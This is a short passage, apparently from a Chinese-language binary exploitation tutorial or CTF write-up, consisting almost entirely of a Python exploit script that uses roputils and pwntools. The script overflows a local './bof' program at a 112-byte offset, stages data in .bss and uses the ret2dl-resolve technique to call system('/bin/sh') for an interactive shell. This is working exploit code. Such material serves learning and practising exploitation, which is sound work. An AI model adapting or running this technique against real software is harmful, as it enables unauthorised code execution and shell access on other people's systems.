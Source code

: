### 使用工具

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context

r=process('./bof')
context.log_level='debug'
r.recv()

rop=ROP('./bof')
offset=112
bss_base=rop.section('.bss')
buf=rop.fill(offset)

buf+=rop.call('read',0,bss_base,100)
buf+=rop.dl_resolve_call(bss_base+20,bss_base)
r.send(buf)

buf=rop.string('/bin/sh')
buf+=rop.fill(20,buf)
buf+=rop.dl_resolve_data(bss_base+20,'system')
buf+=rop.fill(100,buf)
r.send(buf)
r.interactive()
```